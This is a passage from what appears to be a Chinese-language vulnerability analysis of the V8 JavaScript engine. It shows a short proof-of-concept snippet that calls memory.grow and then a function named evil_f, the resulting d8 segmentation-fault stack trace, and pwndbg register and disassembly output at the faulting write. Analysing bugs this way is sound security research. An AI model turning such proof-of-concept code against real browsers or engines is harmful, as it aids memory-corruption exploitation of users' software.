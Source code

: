 ```
memory.grow(1);
evil_f(1);
```

与前面的示例差不多，我们仅仅是增加了一句`memory.grow(1);`，然后调用函数以后就出现了崩溃。

```
root@ubuntu:~/Desktop/v8/out.gn/ia32.debug# ./d8 poc.js
Received signal 11 SEGV_MAPERR 0000f1d64000

==== C stack trace ===============================

 [0x0000f58e4e80]
 [0x0000f58e4d7a]
 [0x0000f7f07b80]
 [0x00004010658b]
 [0x0000549fc522]
 [0x0000549f9336]
 [0x00005498608f]
 [0x0000f6d7935f]
 [0x0000f6d788a2]
 [0x0000f6d786af]
 [0x0000f61fbef6]
 [0x0000565f7010]
 [0x00005660c8c0]
 [0x000056610ff3]
 [0x000056612523]
 [0x000056612912]
 [0x0000f53ace91]
[end of stack trace]
Segmentation fault (core dumped)

```

很明显是内存访问错误，使用gdb调试

```
pwndbg&gt; c
Continuing.

Thread 1 "d8" received signal SIGSEGV, Segmentation fault.
0x4498658b in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────────────────────────────────────
*EAX  0x1
*EBX  0x0
*ECX  0xc80000
*EDX  0xf1d99000
*EDI  0x44986580 ◂— mov    ecx, dword ptr [esi + 4] /* 0x8b044e8b */
*ESI  0x56d586d0 ◂— 0xf1d99000
*EBP  0xfff53ed4 —▸ 0xfff53f08 —▸ 0xfff53f20 —▸ 0xfff53f48 —▸ 0xfff540d8 ◂— ...
*ESP  0xfff53ec8 —▸ 0x449862f2 ◂— mov    eax, 0x43a84185 /* 0xa84185b8 */
*EIP  0x4498658b ◂— mov    dword ptr [edx + ebx], eax /* 0xc31a0489 */
───────────────────────────────────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────────────────────────────────────────
 ► 0x4498658b    mov    dword ptr [edx + ebx], eax
   0x4498658e    ret
```
